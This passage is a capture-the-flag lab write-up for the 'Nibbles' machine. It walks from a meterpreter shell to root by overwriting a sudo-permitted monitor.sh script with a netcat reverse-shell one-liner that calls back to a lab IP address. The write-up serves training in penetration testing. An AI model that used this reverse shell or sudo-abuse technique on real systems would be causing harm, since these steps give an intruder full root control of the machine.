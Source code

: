 Called a shell from meterpreter after successul connection, checked username, started up bin/bash, found the user.txt, cat'd it out and submitted the flag.
```bash
meterpreter > shell
Process 19062 created.
Channel 0 created.
whoami
nibbler
/bin/bash -i
bash: cannot set terminal process group (1339): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

# Privilege Escalation
---
Sudo -l demonstrated that we can run a specific .sh file here:
```bash
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

It wasn't present immediately, but was able to 'unzip' the personal. zip and drill down to this specific location.
Reviewed the .sh file and it doesn't seem to be anything important (or functional).

Backed up the monitor.sh file (`cp monitor.sh monitor.sh.bak`)
Pulled the Netcat OpenBSD command from [Here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) and customized:
```bash
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f" > monitor.sh
```
Started the listener
Executed with sudo
Listener picked up

Confimed I was root, navigated to ~, cat'd out the root.txt and submitted the flag.

# Failures
---
## Source Code Review
Pulled the following string from the source code on the admin.php page for reference:
```html
<div class="title">Sign in to Nibbleblog admin area</div><form id="js_form" name="form" method="post"  ><div class="form_block" ><input class="username" name="username" type="text" placeholder="Username" autocomplete="off" maxlength="254" /></div><div class="form_block" ><input class="password" name="password" type="password" placeholder="Password" autocomplete="off" maxlength="254" /></div><div class="form_block" ><input type="checkbox" id="js_remember" name="remember" class="float"  value="1"/><label class="for_checkbox remember" for="js_remember" >Remember me</label><input type="submit" class="save" value="Login" /></div></form><a class="back" href="/nibbleblog/" >&larr;Back to blog</a>
```
